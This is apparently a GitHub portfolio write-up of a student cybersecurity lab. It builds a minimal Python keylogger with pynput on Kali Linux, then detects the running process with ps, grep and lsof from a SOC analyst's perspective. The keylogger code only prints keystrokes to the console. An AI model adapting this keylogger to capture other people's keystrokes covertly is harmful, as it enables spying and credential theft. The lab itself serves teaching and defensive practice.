

# Ethical Keylogger Development & Detection Lab

## 1. Objective
To understand keylogger mechanics by developing a basic version in a controlled sandbox environment (Kali Linux) and to apply SOC analyst techniques for its detection on a Linux system. This project bridges offensive tool development with defensive threat hunting, demonstrating a complete security mindset valued in enterprise SOC roles.

## 2. Environment & Setup
- **Virtual Machine:** Kali Linux
- **Language:** Python 3
- **Key Library:** `pynput`
- **Setup:** Utilized a Python virtual environment (`keylogger-env`) to isolate project dependencies and adhere to secure development best practices (PEP 668 compliance).

## 3. Keylogger Implementation

### 3.1 Creating the Python Virtual Environment
To avoid conflicts with system packages, a dedicated virtual environment was created and activated.

```bash
mkdir ~/keylogger-lab
cd ~/keylogger-lab
python3 -m venv keylogger-env
source keylogger-env/bin/activate
pip install pynput
```

i[](Images/2026-04-23_14-41-1.1-CreatingEnv.png)
3.2 Keylogger Source Code

The script uses the pynput library to asynchronously monitor and capture keyboard events, distinguishing between alphanumeric and special keys.
```
python

from pynput import keyboard

def on_press(key):
    try:
        print(f"Alphanumeric key pressed: {key.char}")
    except AttributeError:
        print(f"Special key pressed: {key}")

# Start the listener
with keyboard.Listener(on_press=on_press) as listener:
    print("Keylogger started. Monitoring keystrokes. Press Ctrl+C to stop.")
    listener.join()
```
i[](Images/2026-04-23_14-43-1.2-Keylogger-Script.png)

3.3 Testing the Keylogger

The script was executed and validated by typing into a separate application. Keystrokes appeared in real-time within the terminal, confirming successful capture of both standard and special key events.
```
bash

python3 keylogger.py
```

i[](Images/2026-04-23_14-46-1.3-Keylogger-Test.png)

4. SOC Analyst Detection Simulation

Assuming the perspective of a security analyst investigating a suspicious endpoint, the following detection and triage procedures were executed.
4.1 Process Enumeration

A second terminal was opened and the virtual environment activated. The ps command, filtered with grep, was used to identify the malicious Python process, revealing the script's name and its Process ID (PID).
```
bash

cd ~/keylogger-lab
source keylogger-env/bin/activate
ps aux | grep python
```
i[](Images/2026-04-23_14-49-1.4-keylogger-PID.png)

Analysis: The output clearly shows a Python process running keylogger.py with PID 3851. In a real incident, an unknown Python script executing from a user's home directory would warrant immediate investigation.
4.2 File Handle Inspection

The lsof command was used to examine open file descriptors associated with the suspicious PID, seeking evidence of data exfiltration or log file creation.
```
bash

lsof -p 3851
```


Analysis: The output reveals the process has open file descriptors for standard input/output/error (0u, 1u, 2u) and memory-mapped library files (.so). No external log file was detected, confirming the keylogger currently only outputs to the console. This is a valuable observation—it indicates the tool is in a testing or non-persistent state.
5. Key Takeaways & Skills Demonstrated

Secure Development Practices: Implemented Python virtual environments to maintain system stability and adhere to modern packaging standards.

Threat Mechanics: Gained hands-on understanding of how keyloggers interface with operating system input subsystems.

Defensive Analysis: Applied real-world SOC triage techniques using native Linux commands (ps, grep, lsof) to detect and analyze a simulated threat.

Articulated Documentation: Produced a comprehensive, portfolio-ready report with screenshots, code snippets, and analytical commentary.

6. Resume Bullet Points

Ethical Keylogger Development & Detection Lab | GitHub

Engineered an educational Python keylogger in a controlled Kali Linux environment, leveraging the pynput library and a virtual environment adhering to secure development best practices.

Simulated SOC analyst detection techniques by enumerating active processes (ps aux | grep python) and identifying suspicious Python execution, successfully isolating the keylogger's PID.

Conducted a file handle inspection using lsof to analyze the keylogger's system interactions, documenting a complete offensive-to-defensive analysis for a cybersecurity portfolio.

This project was conducted in a controlled lab environment for educational and portfolio development purposes only.
